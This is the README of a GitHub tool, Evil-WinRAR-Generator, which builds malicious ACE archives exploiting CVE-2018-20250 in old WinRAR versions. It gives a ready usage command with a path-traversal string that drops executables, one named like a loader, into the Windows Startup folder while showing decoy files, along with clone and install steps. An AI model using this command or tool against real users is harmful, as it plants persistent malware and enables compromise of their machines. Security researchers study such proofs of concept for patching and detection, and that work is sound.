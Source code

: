 # Evil-WinRAR-Generator
[![Python 3.6](https://img.shields.io/badge/python-3.6-yellow.svg)](https://www.python.org/downloads/release/python-360/)
 [![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://raw.githubusercontent.com/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@manulqwerty-blue.svg)](https://twitter.com/manulqwerty) 

Generator of malicious Ace files for WinRAR &lt; 5.70 beta 1

Vulnerability by [research.checkpoint.com](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

**Developed by [@manulqwerty - IronHackers](https://ironhackers.es).**

Usage
----
Help:

`./evilWinRAR.py -h`

Generate a malicius archive:
> Rar filename: evil.rar

> Evil path: C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

> Evil files: calc.exe , l04d3r.exe

> Good files: hello.txt , cats.jpeg
```bash
./evilWinRAR.py -o evil.rar -e calc.exe l04d3r.exe -g hello.txt cats.jpeg -p 'C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

Instalation
----
You can download Evil-WinRAR-Generator by cloning the [Git](https://github.com/manulqwerty/Evil-WinRAR-Gen.git) repository:
	
```bash
git clone https://github.com/manulqwerty/Evil-WinRAR-Gen.git
cd Evil-WinRAR-Gen && pip3 install -r requirements.txt
chmod +x evilWinRAR.py
```
	
Evil-WinRAR-Generator works out of the box with [Python](http://www.python.org/download/) version **3.x** on any platform.

Proof of Concept (CVE-2018-20250)
----
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/eUsVHa_fxrA/0.jpg)](https://www.youtube.com/watch?v=eUsVHa_fxrA)

Screenshots
----
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/2-4.png)
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/1-4.png)

Credits
----
https://github.com/droe/acefile

https://github.com/WyAtu/CVE-2018-20250

**Colaborators:**

[cybervaca]

<!-- Github URLs -->
[cybervaca]: https://github.com/cybervaca
